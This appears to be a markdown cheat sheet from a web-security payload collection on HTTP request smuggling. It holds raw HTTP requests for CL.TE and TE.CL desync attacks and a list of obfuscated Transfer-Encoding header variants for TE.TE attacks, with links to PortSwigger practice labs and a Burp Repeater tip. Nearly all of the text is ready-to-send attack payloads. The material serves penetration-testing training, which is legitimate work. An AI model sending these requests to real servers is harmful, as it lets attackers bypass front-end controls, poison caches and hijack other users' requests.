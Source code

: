 # Request Smuggling

## Summary

* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)


## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## References

* [PortSwigger - Request Smuggling](https://portswigger.net/web-security/request-smuggling)
